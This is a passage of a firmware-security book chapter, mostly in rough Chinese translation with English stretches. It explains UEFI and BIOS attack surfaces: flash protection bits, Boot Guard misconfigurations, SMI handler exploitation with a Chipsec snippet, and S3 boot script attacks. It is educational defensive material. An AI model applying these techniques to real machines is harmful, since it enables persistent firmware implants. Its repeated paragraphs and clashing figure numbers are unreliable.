后利用漏洞通常作为交付恶意载荷的第二阶段使用（该利用方案在 第 15 章 中解释）。这是攻击者在成功利用之前阶段后，用来安装持久性和非持久性植入程序的主要漏洞类别。以下是此类别中主要植入程序、利用和漏洞的类别。

**Secure Boot 绕过** 攻击者关注绕过 Secure Boot 过程，要么通过破坏根信任（即完全妥协），要么利用启动阶段中的其他漏洞。Secure Boot 绕过可以在不同的启动阶段发生，并可被攻击者用于针对随后的所有层及其信任机制。

**SMM 特权提升** SMM 在 x86 硬件上拥有巨大的权力，几乎所有针对 SMM 的特权提升问题最终都会导致代码执行。SMM 特权提升通常是 BIOS 植入程序安装的最后阶段之一。

**UEFI 固件植入** UEFI 固件植入是持久性 BIOS 植入程序的最终阶段。攻击者可以在 UEFI 固件的不同层级上安装植入程序，无论是修改后的合法模块，还是像 DXE 或 PEI 这样的独立驱动程序（后文将讨论）。

**持久性植入** 持久性植入程序能够跨越完整的重启和关机循环。在某些情况下，为在更新过程中生存，它可能会在安装更新前修改 BIOS 更新映像。

**非持久性植入** 非持久性植入程序无法跨越完整的重启和关机循环。这些植入程序可能在受保护的硬件虚拟化（如 Intel VT-x）以及受信任执行层（如 MS VBS）内提供特权提升和代码执行。它们也可以作为隐蔽通道，向操作系统内核模式发送恶意载荷。

## 受损供应链漏洞

*受损供应链攻击* 利用 BIOS 开发团队或 OEM 硬件供应商的错误，或在目标软件的配置上故意制造漏洞，从而让攻击者绕过平台的安全特性。

在供应链攻击中，攻击者在硬件的生产和制造过程中获得对硬件的访问，并在此阶段植入恶意固件修改或安装恶意外设。供应链攻击也可以远程发生，例如当攻击者获得固件开发商的内部网络（或有时是供应商网站）访问权限，并直接将恶意修改注入源代码仓库或构建服务器。

带有物理访问权限的供应链攻击涉及在隐蔽方式下干扰目标平台，有时与 *恶意女仔攻击*（evil maid attack）相似，即攻击者在有限时间内拥有物理访问权限，利用供应链漏洞进行攻击。这些攻击利用了硬件所有者无法监控物理访问的情况——例如，所有者将笔记本电脑放在托运箱中、交给外国海关检查，或仅仅忘记在酒店房间里。攻击者可以利用这些机会误配硬件和固件，以交付 BIOS 植入程序，或直接向 SPI 闪存芯片闪写恶意固件。

以下大多数问题适用于供应链和恶意女仔攻击场景。

**误配保护措施** 通过在开发过程或后期生产阶段攻击硬件或固件，攻击者可以误配技术保护措施，使其在后续更容易被绕过。

**不安全的根信任** 此漏洞涉及通过固件的通信接口（如 SMM） compromising 操作系统的根信任。

**恶意外设** 此类攻击涉及在生产或交付阶段植入外设。恶意设备可以用于多种方式，如直接内存访问（DMA）攻击。

**植入 BIOS 更新** 攻击者可能 compromise 供应商网站或其他远程更新机制，并通过其交付感染的 BIOS 更新。compromise 的点可能包括供应商的构建服务器、开发系统，或被盗的拥有供应商私钥的数字证书。

### 未经验证的 BIOS 更新过程

`Vendors may break the authentication process for BIOS updates, whether intentionally or not, allowing attackers to apply any modifications they want to the update images.`

### 过时的 BIOS 与已知的安全问题

`BIOS 开发人员可能继续使用较旧、存在漏洞的 BIOS 固件代码版本，即使底层代码基已经修补，这仍使固件易受攻击。原始交付给用户的 BIOS 版本很可能在用户的个人电脑或数据中心服务器上长期保留且不更新。这是涉及 BIOS 固件的最常见安全失败之一。`

## 供应链漏洞缓解

`在没有对开发和生产生命周期进行根本性变更的情况下，缓解供应链相关的风险非常困难。典型的客户端或服务器平台包含大量第三方组件，包括软件和硬件。大多数不拥有完整生产周期的公司并不太在意安全，也无法承担相应的费用。`

`信息和资源短缺进一步加剧了 BIOS 配置和芯片组配置方面的困难。NIST 800-147（“BIOS 防护指南”）和 NIST 800-147B（“服务器 BIOS 防护指南”）文档为起点提供了有用参考，但自 2011 年首次发布以及 2014 年服务器更新后，它们已迅速落后于当前实际情况。`

`让我们深入了解一些 UEFI 固件攻击的细节，以填补这些广泛知识的空白。`

### UEFI 固件保护的历史

`本节将介绍一些允许攻击者绕过 Secure Boot 的漏洞类别，并在下一章中讨论具体的 Secure Boot 实现细节。`

`以前，任何允许攻击者在 SMM 环境中执行代码的安全问题都能够绕过 Secure Boot。尽管即使是现代硬件平台，即使在进行了最新的硬件更新后，仍可能受到基于 SMM 的 Secure Boot 攻击，大多数企业供应商已转向使用最新的 Intel 安全特性，使这些攻击更加困难。当前的 Intel 技术（如 Intel Boot Guard 和 BIOS Guard，后文将详细说明）将启动过程的根本信任从 SMM 迁移到更安全的环境：Intel ME 固件/硬件。`

### 根本信任

`根本信任是一个已验证的密码学密钥，作为 Secure Boot 的锚点。Secure Boot 通过硬件验证的启动过程确保平台仅能够使用已通过根本信任成功验证的可信代码来启动。现代平台设计将根本信任锁定在硬件受保护的存储介质，如一次性可编程熔丝或具有持久存储的独立芯片。`

`UEFI Secure Boot 的第一个版本于 2012 年推出。其主要组件包括在 DXE 启动阶段实现的根本信任（DXE 是 UEFI 固件启动过程的最新阶段，就在操作系统获得控制权之前）。这意味着该早期实现的 Secure Boot 仅确保了操作系统引导加载程序的完整性，而不包括 BIOS 本身。`

`随后，该设计的弱点显而易见，在下一个实现中，根本信任被移至 PEI——平台早期初始化阶段——并在 DXE 之前锁定。该安全边界同样存在漏洞。自 2013 年 Intel Boot Guard 技术发布以来，根本信任通过 TPM 芯片（或在 ME 固件中实现的等效功能以降低支持成本）在硬件层面被锁定。现场可编程熔丝（FPF）位于主板芯片组（PCH）上，可通过 ME 固件进行编程。`

`在深入探讨促使这些重新设计的实际利用之前，让我们先讨论基本的 BIOS 防护技术是如何工作的。`

#### BIOS 防护技术工作原理


Figure 16-3 展示了保护持久性 SPI 闪存存储的技术的高层视图。最初，SMM 被授予对 SPI 闪存的读写权限，以便实现常规的 BIOS 更新。这意味着 BIOS 的完整性依赖于 SMM 中任何代码的质量，因为该代码都能够修改 SPI 存储中的 BIOS。因此，安全边界的强弱取决于 SMM 中曾经运行的最弱代码以及它访问的外部内存区域。于是，平台开发者采取措施将 BIOS 更新与 SMM 的其他功能分离，并引入了诸如 Intel BIOS Guard 等额外安全控制。


*Figure 16-3: 高层次 BIOS 安全技术表示*

### `SPI 闪存保护及其漏洞`

我们在 Figure 16-3 中讨论的几项控制，分别在 “(In)Effectiveness of Memory Protection Bits” 章节的第 263 页（page 263）以及 “BIOS Control Bit Protection (BIOS_CNTL)”、 “Flash Configuration Lock-Down (FLOCKDN)”、以及 “SPI flash Write Protection (PRx)” 中有所阐述。然而，BIOS_CNTL 的防护仅针对从操作系统尝试修改 BIOS 的攻击者，且可通过 SMM（外部可访问的 SMI 处理程序）的任意代码执行漏洞绕过，因为 SMM 代码可以自由修改这些保护位。基本上，BIOS_CNTL 只提供一种安全 illusion（幻觉）。

最初，SMM 拥有对 SPI 闪存的读写权限，以便实现常规的 BIOS 更新。这使得 BIOS 的完整性依赖于 SMM 中任何代码的质量，因为该代码能够修改 SPI 存储中的 BIOS。该安全边界极其薄弱——取决于 SMM 中运行的最弱代码。

为解决此问题，平台开发者将 BIOS 更新与 SMM 的其他功能分离，并引入了多项安全控制，例如 Intel BIOS Guard。

这些控制本身往往并不强。例如，BIOS Control Bit Protection (BIOS_CNTL) 只能防止操作系统尝试修改 BIOS，却可以被 SMM 代码绕过，因为 SMM 可以随意更改保护位。

PRx 控制相对更有效，因为其策略不能被 SMM 修改。但正如我们稍后将讨论的，许多厂商并未启用 PRx 保护——包括 Apple 和出人意料的 Intel，Intel 作为该技术的发明者。

Table 16-1 总结了截至 2018 年 1 月，基于 x86 硬件安全锁位的流行硬件厂商对活动保护技术的状态。此处 RP 表示 *读取保护*，WP 表示 *写入保护*。

**表 16-1：流行硬件厂商的安全级别**

| 厂商名称 | BLE | SMM_BWP | PRx | Authenticated update |
| --- | --- | --- | --- | --- |
| ASUS | `Active` | `Active` | `Not active` | `Not active` |
| MSI | `Not active` | `Not active` | `Not active` | `Not active` |
| Gigabyte | `Active` | `Active` | `Not active` | `Not active` |
| Dell | `Active` | `Active` | `RP/WP` | `Active` |
| Lenovo | `Active` | `Active` | `RP` | `Active` |
| HP | `Active` | `Active` | `RP/WP` | `Active` |
| Intel | `Active` | `Active` | `Not active` | `Active` |
| Apple | `Not active` | `Not active` | `WP` | `Active` |

从表中可以看出，厂商在 BIOS 安全方面的做法差异巨大。有些厂商甚至不验证 BIOS 更新，这会带来严重的安全隐患，因为绕过验证更容易安装恶意固件（除非厂商执行 Intel Boot Guard 政策）。

- [PRx 保护必须正确配置才能生效。]Listing 16-1 展示了配置不当的闪存区域示例，所有 PRx 片段定义均设为零，导致其失效。

```
* BIOS 区域：Base = 0x00800000，Limit = 0x00FFFFFF

SPI 受保护范围
------------------------------------------------------------
PRx (offset) | Value | Base | Limit | WP? | RP?
------------------------------------------------------------
PR0 (74) | 00000000 | 00000000 | 00000000 | 0 | 0
PR1 (78) | 00000000 | 00000000 | 00000000 | 0 | 0
PR2 (7C) | 00000000 | 00000000 | 00000000 | 0 | 0
PR3 (80) | 00000000 | 00000000 | 00000000 | 0 | 0
PR4 (84) | 00000000 | 00000000 | 00000000 | 0 | 0
```

*Listing 16-1: 配置不当的 PRx 访问策略（经 Chipsec 工具抓取）*

我们也看到一些供应商仅配置只读保护策略，这仍然允许攻击者修改 SPI 闪存。此外，PRx 不保证对 SPI 内部内容的完整性测量，因为它仅在启动阶段的极早阶段（PEI）实现位级的直接读写访问的位锁定。

供应商如 Apple 和 Intel 往往禁用 PRx 保护，原因是这些保护需要立即重启系统，使 BIOS 更新变得不便。没有 PRx 保护时，供应商的 BIOS 更新工具可以使用操作系统 API 将新 BIOS 镜像写入物理内存的空闲区域，然后触发 SMI 中断，使驻留在 SMM 的助码从该区域读取镜像并写入 SPI 闪存。更新后的 SPI 镜像在下次重启时生效，而重启可以由用户自行决定的时间进行。

当 PRx 启用且正确配置以保护 SPI 免受 SMM 代码的修改时，BIOS 更新工具不再能够利用 SMM 修改 BIOS。它必须将更新镜像存储在动态随机存取存储器（DRAM）中，并触发立即重启。安装更新的助码必须是一段在 PRx 保护激活之前运行的特殊早期启动阶段驱动，用于从 DRAM 将更新镜像复制到 SPI。此方法有时需要在工具运行时立即重启（或直接调用 SMI 处理程序而不重启），这对用户而言不便。

无论 BIOS 更新工具走哪条路线，助码在安装更新镜像前必须对其进行真实性验证。否则，无论 PRx 是否启用、是否重启，助码都会安装被篡改的 BIOS 镜像，只要攻击者在助码运行前对其进行修改。正如 Table 16-1 所示，部分硬件厂商未对固件更新进行验证，使攻击者只需篡改更新镜像即可操作。

### FIRST PUBLICLY KNOWN ATTACK ON THE BIOS UPDATE PROCESS

请记住，即使您正确配置了 PRx 并验证了 BIOS 更新的加密签名，仍可能受到攻击。2009 年在黑客马赛会（Black Hat Vegas）上，Rafal Wojtczuk 和 Alex Tereshkin 发表了《Attacking Intel BIOS》一文，首次公开展示了一种针对已启用并签名的 BIOS 更新过程且具备 SPI 闪存保护位的内存损坏漏洞，该漏洞导致任意代码执行并绕过更新文件签名的验证。

### `Risks Posed by an Unauthenticated BIOS Update`

2018 年 9 月，安全公司 ESET 发布了一份关于 LOJAX rootkit 的研究报告，该 rootkit 通过操作系统攻击 UEFI 固件。^(1) 当时的攻击手段与过去五年间已发现的其他恶意软件所使用的技术相同。LOJAX 采用了与 Hacking Team UEFI rootkit 类似的手段：它利用未经过验证的 Computrace 组件存储在 NTFS 中，正如我们在 第 15 章 讨论的那样。因此，LOJAX rootkit 并未使用全新漏洞，其唯一的创新在于感染方式——它会检查系统是否存在对 SPI 闪存的未经认证访问，若发现则交付修改后的 BIOS 更新文件。

BIOS 安全松散的做法为攻击者提供了大量机会。攻击者可以在运行时扫描系统，寻找合适的目标和感染向量，这两者均十分丰富。LOJAX rootkit 的感染程序检查了多种保护措施，包括 BIOS 锁定位（BLE）和 SMM BIOS 写保护位（SMM_BWP）。如果固件未经过认证，或在将更新镜像传输到 SPI 存储前未检查其完整性，攻击者可以直接从操作系统交付被篡改的更新文件。LOJAX 利用 Speed Racer 漏洞（VU#766164，最初由 Corey Kallenberg 在 2014 年发现）通过竞争条件绕过 SPI 闪存保护位。您可以使用 `chipsec_main -m common.bios_wp` 命令检测此漏洞以及与 BIOS 锁定位相关的其他弱点。

此例表明，安全边界的强度取决于其最弱的环节。无论平台具备多少其他防护，Computrace 松散的代码认证处理都削弱了它们，重新开放了操作系统侧的攻击向量，从而消除了其他防护试图消除的威胁。只需突破一道海堤，洪水便会淹没平原。

### `BIOS Protection with Secure Boot`

Secure Boot 对威胁环境有何影响？简短回答是：取决于其实现方式。2016 年之前、未包含 Intel Boot Guard 和 BIOS Guard 技术的旧版 Secure Boot 将面临风险，因为在这些旧实现中，根本信任链位于 SPI 闪存，可被覆盖。

2012 年首次推出的 UEFI Secure Boot 其根本信任链实现在 DXE 启动阶段，这是 UEFI 固件启动过程的后期阶段，就在操作系统获得控制权之前。由于根本信任链过于靠后，这一实现仅能保证 OS 启动加载器的完整性，而无法保护 BIOS 本身的完整性。该设计缺陷很快显现，随后的实现将根本信任链移至 PEI（早期平台初始化）阶段，以在 DXE 之前锁定根本信任。即便如此，安全边界仍显弱。

Boot Guard 和 BIOS Guard 是更近期加入 Secure Boot 的功能：Boot Guard 将根本信任链从 SPI 移至硬件，BIOS Guard 则将 SPI 更新任务从 SMM 迁移到独立的芯片（Intel Embedded Controller，EC），并取消了 SMM 对 SPI 闪存的写入权限。

将根本信任链提前到更早的启动阶段并迁移至硬件，还可以进一步缩短受信任平台的启动时间。您可以设想一种保护方案，在启动时验证数十个独立的 EFI 镜像签名，而不是验证包含所有驱动的单一镜像。但这在当今时代会过于耗时，厂商希望将启动时间压缩到毫秒级。

At this point, you might be asking: with so many moving parts involved in the Secure Boot process, how can we avoid situations in which a trivial bug destroys all of its security guarantees? (We’ll cover the full process of Secure Boot in `ch17.xhtml#ch17`.) The best answer, to date, is to have tools that make sure every component plays its appointed role and that every stage of the boot process takes place in the exact intended order. That is to say, we need a formal model of the process that automated code analysis tools can validate—and that means that the simpler the model, the more confidence we have that it will be checked correctly.

Secure Boot relies on a chain of trust: the intended execution path begins with the root of trust locked into the hardware or SPI flash storage and moves through the stages of the Secure Boot process, which can proceed only in a particular order and only if all of the conditions and policies at every stage are satisfied.

Formally speaking, we call this model a `finite state machine`, where different states represent different stages of the system boot process. If any of the stages has nondeterministic behavior—for example, if a stage can switch the boot process into a different mode or have multiple exits—our Secure Boot process becomes a nondeterministic finite state machine. This makes the task of automatically verifying the Secure Boot process significantly harder, because it exponentially increases the number of execution paths we must verify. In our opinion, nondeterministic behavior in Secure Boot should be regarded as a design mistake that is likely to lead to costly vulnerabilities, as in the case of the S3 Boot Script vulnerability discussed later in this chapter.

### `Intel Boot Guard`

In this section, we’ll discuss how Intel Boot Guard technology works, then explore some of its vulnerabilities. Although Intel has no publicly available official documentation about Boot Guard, our research and that of others allow us to paint a coherent picture of this remarkable technology.

#### `Intel Boot Guard Technology`

Boot Guard divides Secure Boot into two phases: in the first phase, Boot Guard authenticates everything located in the BIOS section of the SPI storage, and in the second stage, Secure Boot handles the rest of the boot process, including authentication of the OS bootloader (Figure 16-4).


*Figure 16-4: The boot process with active Intel Boot Guard technology*


# Intel Boot Guard Technology

The Intel Boot Guard technology spans several levels of the CPU architecture and the related abstractions. One benefit is that it doesn't need to trust the SPI storage, so it's able to avoid the vulnerabilities we discussed earlier in this chapter. Boot Guard separates integrity checking of the BIOS stored in the SPI flash from the BIOS itself by using the Authenticated Code Module (`ACM`), which is signed by Intel, to verify the integrity of the BIOS image before allowing it to execute. With Boot Guard activated on a platform, the root of trust moves inside the Intel microarchitecture, wherein the CPU's microcode parses the `ACM` contents and checks the digital signature verification routines implemented in the `ACM`, which in turn will check the BIOS signature.

By contrast, the original UEFI Secure Boot root of trust resided in the UEFI DXE phase, almost the last one before control is passed to the OS bootloader—which is, as we've mentioned before, very late in the game. If UEFI firmware is compromised at the DXE stage, an attacker can completely bypass or disable Secure Boot. Without hardware-assisted verification, there is no way to guarantee the integrity of the boot process stages that take place before the DXE phase (PEI implementation also has confirmed weaknesses), including the integrity of the DXE drivers themselves.

Boot Guard addresses this problem by moving the root of trust for Secure Boot from the UEFI firmware to the hardware itself. For example, Verified Boot—a recent variant of Boot Guard that Intel introduced in 2013, which we'll discuss in more detail in the next chapter—locks the hash of an OEM public key within the field programmable fuse (`FPF`) store. The `FPF` can be programmed only one time, and the hardware vendor locks the configuration by the end of the manufacturing process (in some cases this can be revoked, but because these are edge cases, we won't discuss them here).

## Vulnerabilities in Boot Guard

Boot Guard's efficacy depends on all of its components working together, with no layer containing any vulnerabilities for the attacker to execute code or to elevate privileges in order to interfere with other components of the multilayer Secure Boot scheme. Alex Matrosov's "Betraying the BIOS: Where the Guardians of the BIOS Are Failing" ([www.youtube.com/watch?v=Dfl2JI2eLc8](https://www.youtube.com/watch?v=Dfl2JI2eLc8)), presented at Black Hat USA 2017, revealed that an attacker could successfully target the scheme by interfering with the bit flags set by the lower levels to pass the information about their state of integrity to the upper levels.

As has been demonstrated, firmware cannot be trusted because most SMM attacks can compromise it. Even the Measured Boot scheme, which relies on the TPM as its root of trust, can be compromised, because the measuring code itself runs in SMM and can in many cases be modified from the SMM, even though the key stored in the TPM hardware cannot be changed by SMM. Although some attacks on the TPM chip are possible, the SMM privilege–wielding attackers do not need them, as they would simply attack the firmware's interfaces to the TPM. In 2013 Intel introduced Verified Boot, which we just mentioned, to address this Measured Boot weakness.

The Boot Guard `ACM` verification logic measures the `initial boot block (IBB)` and checks its integrity before passing control to the `IBB` entry point. If `IBB` verification fails, the boot process will generally be interrupted depending on the policy. The `IBB` part of the UEFI firmware (BIOS) executes on a normal CPU (not isolated or authenticated). Next, `IBB` continues the boot process, following the Boot Guard policies in the verified or measured mode to the platform initialization phase. The PEI driver verifies the integrity of the DXE drivers and transitions the chain of trust to the DXE phase. The DXE phase then continues the chain of trust to the operating system bootloader. `Table 16-2` presents research data about the state of security in each of these stages across various hardware vendors.

**Table 16-2:** How Different Hardware Vendors Configure Security (as of January 2018)

| **Vendor name** | **ME access** | **EC access** | **CPU debugging (DCI)** | **Boot Guard** | **Forced Boot Guard ACM** | **Boot Guard FPF** |
| --- | --- | --- | --- | --- | --- | --- |
| **ASUS VivoMini** | Disabled | Disabled | Enabled | Disabled | Disabled | Disabled |
| **MSI Cubi2** | Disabled | Disabled | Enabled | Disabled | Disabled | Disabled |
| **Gigabyte Brix** | Read/write enabled | Read/write enabled | Enabled | Measured verified | Enabled (FPF not set) | Not set |
| **Dell** | Disabled | Disabled | Enabled | Measured verified | Enabled | Enabled |
| **Lenovo ThinkCenter** | Disabled | Disabled | Enabled | Disabled | Disabled | Disabled |
| **HP Elitedesk** | Disabled | Disabled | Enabled | Disabled | Disabled | Disabled |
| **Intel NUC** | Disabled | Disabled | Enabled | Disabled | Disabled | Disabled |
| **Apple** | Read enabled | Disabled | Disabled | Not supported | Not supported | Not supported |

- You can see that these catastrophic configurations of security options are not merely theoretical hypotheses. For example, some vendors failed to write the hash into the `FPF`, or wrote it but subsequently failed to disable manufacturing mode, thereby allowing such write operations. Consequently, an attacker can write their own `FPF` key and lock the system, permanently binding it to their own root and chain of trust (if the hardware vendor has developed a revocation process, there are ways to achieve revocation by overwriting fuses). More precisely, in manufacturing mode, the `ME` can write its memory region to the `FPF`, and the `ME` in this mode can be used by the OS for reading and writing. In this way, an attacker truly possesses the keys to the kingdom.

- Furthermore, most of the Intel-based hardware researched has CPU debugging enabled, so as long as an attacker has physical access, they can gain complete control of the CPU. Some platforms support Intel BIOS Guard technology but have it disabled during manufacturing to simplify BIOS updates.

- Therefore, `Table 16-2` provides excellent examples of multiple supply chain security issues, where practices attempted by vendors to simplify hardware support have resulted in critical security vulnerabilities.

## Vulnerabilities in SMM Modules

Let us now turn to another attack vector for exploiting UEFI firmware from the OS: exploiting bugs in SMM modules.

### Understanding SMM

We discussed SMM and SMI handlers earlier, but here we will revisit these two concepts as a review.

SMM is a highly privileged execution mode of x86 processors. It is designed to implement platform-specific management functions independently of the OS. These functions include advanced power management, secure firmware updates, and configuration of UEFI Secure Boot variables.

A key design feature of SMM is that it provides an isolated execution environment invisible to the OS. Code and data used in SMM are stored in a hardware-protected memory region called `SMRAM`, accessible only to code running inside SMM. To enter SMM, the CPU triggers a System Management Interrupt (`SMI`), a dedicated interrupt typically triggered by OS software.

An *SMI handler* is a privileged service and function of the platform firmware. The `SMI` acts as a bridge between the OS and these SMI handlers. After loading all necessary code and data, the firmware locks the memory region so that it can only be accessed by code running in SMM, thereby preventing OS access to it.

### Exploiting SMI Handlers

Given the high privilege level of SMM, SMI handlers become highly attractive targets for implants and rootkits. Any vulnerability in these handlers could provide an attacker with the opportunity to escalate privileges to the SMM level, the so-called Ring –2.

As with other multilayer models (such as the separation of kernel and user space), the best way to attack privileged code is to target any data that can be consumed from the outside. For SMM, this refers to arbitrary memory outside `SMRAM`. In the SMM security model, the attacker is the OS or privileged software (such as BIOS update tools); therefore, any location outside the OS and not inside `SMRAM` can potentially be manipulated by the attacker (even after certain checks). Potential targets include function pointers consumed by SMM code (which may point to execution areas outside `SMRAM`) and buffers read/parsed by SMM code.

Currently, UEFI firmware developers attempt to reduce the attack surface by minimizing the number of SMI handlers that interact directly with the outside (i.e., Ring 0—OS kernel mode) and by organizing and checking these interactions in new ways. However, this work is incomplete, and SMI handler security issues will likely persist for some time.

Of course, SMM code can receive certain data from the OS to function. However, to remain secure, as required by other multilayer models, SMM code must never act directly on external data without first copying and checking it inside `SMRAM`. Data that has been checked but remains outside `SMRAM` is untrustworthy because an attacker could race to modify it between the check point and the point of use. Furthermore, data copied into `SMRAM` must not reference any external data that has not been checked and copied.

This sounds simple, but languages like C do not natively provide tracking of what memory regions pointers point to; therefore, the critical security distinction between "internal" `SMRAM` memory locations and "external," attacker-controlled OS memory is not always obvious in code. Programmers are essentially left to handle this on their own. (If you are wondering how much static analysis tools can solve these problems, read on—as we will see with the SMI calling convention discussed next, this actually makes the problem quite tricky.)

To understand how an attacker exploits SMI handlers, one must understand their calling convention. Although `Figure 16-2` shows how to make a regular function call to an SMI handler on the Python side of the Chipsec framework, the actual binary calling convention (shown in `Figure 16-3`) is different.

```python
import chipsec.chipset
import chipsec.hal.interrupts

# SW SMI handler number
SMI_NUM = 0x25

# Chipsec initialization
cs = chipsec.chipset.cs()
cs.init(None, True)

# Create instance of required class
ints = chipsec.hal.interrupts.Interrupts(cs)

# Call SW SMI handler 0x25
cs.ints.send_SMI(0, SMI_NUM, 0, 0, 0, 0, 0, 0, 0)
```

*Figure 16-2: Method for calling an SMI handler in Python using the Chipsec framework*

The code in `Figure 16-2` zeroes all parameters except `0x25` (the handler number being called). Although such calls may pass no parameters, SMI handlers may also obtain them indirectly via ACPI or UEFI variables. When the OS triggers an `SMI` (e.g., via a software interrupt through I/O port `0xB2`), it passes parameters to the SMI handler via general-purpose registers. In `Figure 16-3`, you can see how the actual SMI handler call is implemented at the assembly level and how parameters are passed. The Chipsec framework implements this calling convention internally.

```
mov rax, rdx     ; rax_value
mov ax, cx       ; smi_code_data
mov rdx, r10     ; rdx_value
mov dx, 0B2h     ; SMI control/data port (0xB2)
mov rbx, r8      ; rbx_value
mov rcx, r9      ; rcx_value
mov rsi, r11     ; rsi_value
mov rdi, r12     ; rdi_value
; Write smi data value to SW SMI control/data port (0xB2/0xB3)
out dx, ax
```


# SMI 调用问题与任意代码执行

大多数对 BIOS 嵌入式 SMI 处理器感兴趣的漏洞主要分为两大类：SMI 调用问题和任意代码执行（在许多情况下，任意代码执行是由 SMI 调用问题先导而来的）。在 SMI 调用问题中，SMM 代码不慎使用一个由攻击者控制的函数指针，该指针指向 SMM 之外的嵌入式负载。在任意代码执行中，SMM 代码会消费来自 SMRAM 之外的数据，这些数据能够影响控制流，并可被用于获得更大的控制权。此类地址通常位于物理内存的第一兆字节以下，因为 SMI 处理程序预期使用该内存范围，而操作系统通常不会使用该范围。

在 SMI 调用问题中，当攻击者能够覆盖间接跳转或 SMM 调用的函数指针的地址时，攻击者控制的任意代码将在 SMM 之外执行，但仍具有 SMM 特权（例如 `VU#631788` 就是一个典型的此类攻击）。

在主要企业 BIOS 版本的较新版本中，这些漏洞更难以发现，但即使引入了标准函数 `SmmIsBufferOutsideSmmValid()` 来检查指针是否指向 SMRAM 范围之外的内存缓冲区，访问指针之外 SMRAM 范围的问题仍然存在。该通用检查的实现于 Intel EDK2 仓库的 GitHub 中 [`github.com/tianocore/edk2/blob/master/MdePkg/Library/SmmMemLib/SmmMemLib.c`](https://github.com/tianocore/edk2/blob/master/MdePkg/Library/SmmMemLib/SmmMemLib.c)，其声明如 Listing 16-4 所示。

```
BOOLEAN
EFIAPI
SmmIsBufferOutsideSmmValid (
  IN EFI_PHYSICAL_ADDRESS  Buffer,
  IN UINT64                Length
)
```

*Listing 16-4: Intel EDK2 中 `SmmIsBufferOutsideSmmValid()` 函数的原型*

`SmmIsBufferOutsideSmmValid()` 函数能够准确检测指向 SMRAM 范围之外的内存缓冲区的指针，唯一例外是：`Buffer` 参数可能是一个结构体，而该结构体的某个字段是指向另一个 SMRAM 之外的缓冲区的指针。如果安全检查仅针对结构体本身的地址进行，SMM 代码仍可能受到影响，尽管已调用 `SmmIsBufferOutsideSmmValid()`。因此，SMI 处理程序在读取或写入这类内存位置之前，必须验证从操作系统接收到的每一个地址或指针（包括偏移量），包括返回状态和错误码。任何在 SMM 内部进行的算术计算也应验证来自 SMM 之外或更低特权模式的参数。

# SMI 处理程序利用案例研究

现在我们已经讨论了 SMI 处理程序从操作系统获取数据的危害，接下来进入真实的 SMI 处理程序利用案例。我们将探讨 Windows 10 等操作系统常用的 UEFI 固件更新流程的常见工作流。

Figure 16-5 展示了在此场景下 BIOS 更新过程的高层图。


*Figure 16-5: 操作系统视角下的 BIOS 更新过程高层表示*

可以看到，用户空间的 BIOS 更新工具与其内核模式驱动通信，后者通常通过 Ring 0 API 函数 `MmMapIoSpace()` 直接访问物理设备内存。此访问使攻击者能够修改或映射恶意数据到 SMI 处理程序 BIOS（`SmiFlash` 或 `SecSmiFlash`）更新解析器所使用的内存区域。解析流程通常足够复杂，容易出现漏洞，尤其是当解析器是用 C 编写时（这也是常见情况）。攻击者构造恶意数据缓冲区，并通过 MS Visual C++ 编译器提供的 `__outbyte()` 内联函数调用易受影响的 SMI 处理程序（如 Listing 16-3 所示）。

如 Figure 16-5 所示，`SmiFlash` 与 `SecSmiFlash` 这两个 DXE 驱动广泛分布在各种 SMM 代码基中。`SmiFlash` 在不进行任何身份验证的情况下直接闪写 BIOS 镜像。利用基于该驱动的更新工具，攻击者可以直接闪写经修改的恶意 BIOS 更新镜像（例如 `VU#507496`，由 Alex Matrosov 发现）。相较之下，`SecSmiFlash` 可以通过检查数字签名来进行身份验证，从而阻止此类攻击。

## S3 启动脚本中的漏洞

本节概述 S3 启动脚本的漏洞。S3 启动脚本是 BIOS 用于从睡眠状态唤醒的脚本。虽然它能加速唤醒过程，但实现不当会产生严重安全影响，如下文所述。

### 理解 S3 启动脚本

现代硬件的电源转移状态（如工作模式和睡眠模式）非常复杂，涉及多个 DRAM manipulation 阶段。在睡眠模式（S3）下，DRAM 仍保持供电，但 CPU 不工作。系统从睡眠状态唤醒时，BIOS 会恢复平台配置（包括 DRAM 内容），随后把控制权交给操作系统。有关这些状态的良好概述可参见 [`docs.microsoft.com/en-us/windows/desktop/power/system-power-states/`](https://docs.microsoft.com/en-us/windows/desktop/power/system-power-states/)。

S3 启动脚本存储在 DRAM 中，跨越 S3 状态保持，并在从 S3 完全恢复时由 Boot Script Executor 执行。虽然被称为“脚本”，它实际上是由 Boot Script Executor 固件模块 [`github.com/tianocore/edk2/blob/master/MdeModulePkg/Library/PiDxeS3BootScriptLib/BootScriptExecute.c`](https://github.com/tianocore/edk2/blob/master/MdeModulePkg/Library/PiDxeS3BootScriptLib/BootScriptExecute.c) 解释并执行的一系列操作码。Boot Script Executor 在 PEI 阶段结束时重放这些操作码，以恢复平台硬件配置和整个预启动状态。执行完 S3 启动脚本后，BIOS 会定位并执行唤醒向量，恢复操作系统之前的软件执行状态。因此，S3 启动脚本使平台能够跳过 DXE 阶段，缩短从 S3 睡眠状态唤醒的时间。但这种优化也带来风险，如后文讨论。^(2)

### 针对 S3 启动脚本弱点的攻击

S3 启动脚本本质上是一段存储在内存中的程序代码。攻击者若能获取并修改该代码，可以在启动脚本内部植入隐蔽操作（保持在 S3 编程模型内，不引起警报），或如果不足以满足需求，则利用脚本解释器超出操作码原本功能的方式进行利用。

S3 启动脚本可以访问 I/O 端口的读写、PCI 配置空间的读写、对物理内存的直接读写等关键数据，这些对平台安全至关重要。特别是，S3 启动脚本可以攻击超执行层以泄露其隔离的内存区域。因此，恶意 S3 脚本的影响类似于前文讨论的 SMM 内部代码执行漏洞。

As S3 scripts are executed early in the wake process, before various security measures are activated, the attacker can use them to bypass some security hardware configurations that would normally take effect during the boot process. Indeed, by design, most of the S3 boot script opcodes cause the system firmware to restore the contents of various hardware configuration registers. For the most part, this process isn’t any different from writing to these registers during the operating system runtime, except that write access is allowed for the S3 script but disallowed for the operating system.

Attackers can target the S3 boot script by altering a data structure called the `UEFI boot script table`, which saves the platform state during the Advanced Configuration and Power Interface (ACPI) specification’s S3 sleep stage, when most of the platform’s components are powered off. UEFI code constructs a boot script table during normal boot and interprets its entries during an S3 resumption, when the platform is waking up from sleep. Attackers able to modify the current boot script table’s contents from the OS kernel mode and then trigger an S3 suspend-resume cycle can achieve arbitrary code execution at the early platform wake stage, when some of security features are not yet initialized or locked in the memory.

#### DISCOVERY OF THE S3 BOOT SCRIPT VULNERABILITY

